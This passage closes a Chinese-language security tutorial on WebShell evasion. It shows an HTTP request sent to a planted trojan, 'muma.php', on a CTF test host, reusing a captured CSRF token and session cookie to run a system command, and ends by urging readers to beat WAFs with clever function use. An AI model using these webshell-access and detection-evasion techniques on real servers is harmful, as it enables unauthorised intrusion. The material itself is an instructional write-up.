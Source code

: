 **注：这不是对 WebShell 发包，而是我上面写的解密 PHP `decode.php` 来进行解密**

#### 12.3.3 第三步，利用木马成功执行命令

现在已经拿到 `X-CSRF-TOKEN` 和 `Cookie` 了，那就直接发包即可

```bash
POST /muma.php HTTP/1.1
Host: test.ctf.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=6g4sgte2t8nnv65u8er5cfdtnq;
X-CSRF-TOKEN: AgEOSQIkN015dlcKVX4MDQNlCV0tNxJe
Content-Length: 0
```

可以看到，成功执行系统命令 `whoami` 了

[![](assets/1707954023-a2d19e947cb6ed229da27d40f6c59384.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205144045-7db6fad0-c3f1-1.png)

所以你学废了吗？更多有趣的 WebShell 免杀案例等我后续更新~

# 四，总结

上面分享了诸多姿势，重点还是灵活依靠思路和姿势，通过活用各种特性和函数来和 WAF 对抗，相信你自己也可以的！

在写这个整理的文档的时候，也收获颇多，希望各位师傅能认真研读，小人不才望大佬多加指正

其实在我个人的眼里，安全对抗其实就是人与人之间的灵魂、思维在碰撞和对抗，我一直执着于这个过程，也欢迎各位师傅和我互相学习、共同进步哈哈~

我的个人 Github： [https://github.com/AabyssZG/](https://github.com/AabyssZG/)
